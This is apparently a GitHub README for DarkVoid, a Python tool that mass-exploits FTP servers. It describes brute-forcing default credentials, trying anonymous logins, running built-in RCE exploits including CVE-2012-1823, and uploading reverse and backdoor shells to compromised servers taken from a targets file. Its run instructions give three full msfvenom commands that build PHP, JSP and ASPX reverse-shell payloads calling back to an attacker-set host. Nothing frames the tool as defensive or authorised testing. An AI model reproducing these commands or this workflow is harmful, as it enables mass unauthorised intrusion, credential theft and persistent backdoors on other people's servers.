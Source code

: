 [DARKVOID V1.2]

<img src="https://github.com/darkseid-security/DarkVoid/blob/main/IMG/darkvoid1.png">

Mass FTP exploitation tool, automates vulnerbility scanning and exploiting FTP servers.

Features:
- Detects FTP service version and alerts you if server is vulnerable to RCE(Remote Code Execution)
- Automatic exploitation
- Built in exploits
- Tries anonymous login
- Tries to upload a shell if anonymous login is successful
- Bruteforce default creds
- If bruteforce is successful program will try and upload a reverse shell through FTP for every cracked account
- Logs cracked user accounts and compromise FTP server via backdoor shell
- [*New Feature] Identifies webserver version and serves payload based on accepted webserver file types
- [*New Feature] Updated UI design
- [*New Feature] Added CVE-2012-1823 

Supports:
- All operating systems running python enviroment
- Exploit support for Pureftp,Proftp and vsFTP
- Exploits for Windows and Linux

TODO:
- Add more exploits
- Test proFTPD 1.3.2rc3 exploit 

Run 
==============
Add targets to Files/targets.txt
Generate payloads in DarkVoid directory before running scipt

msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php Create a JSP reverse shell<br>
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp Create a ASPX reverse shell<br>
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

